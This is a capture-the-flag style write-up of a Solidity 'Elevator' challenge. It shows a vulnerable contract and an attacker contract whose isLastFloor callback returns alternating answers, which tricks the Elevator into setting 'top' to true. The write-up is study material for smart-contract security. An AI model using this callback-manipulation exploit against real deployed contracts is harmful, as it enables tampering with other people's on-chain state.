

# Challenge 11



```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```
Challenge
---
> This elevator won't let you reach the top of your building. Right?

  #### - Things that might help:
  - Sometimes solidity is not good at keeping promises.
  - This Elevator expects to be used from a Building.


Solution 
---

1. Remember `Elevator expects to be used from a Building` if we take look at the interface there is one function. and if we look at our contract instance and then you need make first `if` condition needs to be `FALSE` and `top = building.isLastFloor(floor)` needs to be `TRUE` then it will pass the test.

Here's The Code 

```solidity
contract BuildingC {
    
    Elevator elevatorAddress;
    bool result = true;

    constructor(address _addr) {
        elevatorAddress = Elevator(_addr);
    }

    function isLastFloor(uint) external returns (bool) {
        // if true then make false
        if(result == true) {

           result = false; 

        }else { // if false then make true

            result = true;

        }
        // return result
        return result;
    }

    function solveGoTo() public  {
        elevatorAddress.goTo(2);
    }
}
```

2. Here take the instance address and deploy with it. We made condition if the result is `TRUE` then set to the `FALSE` otherwise `TRUE` and return result in `bool`. run the function `solveGoTo`, you will reach to the top becomes `false` to the `true`. now submit the instance your challenge will be cleared.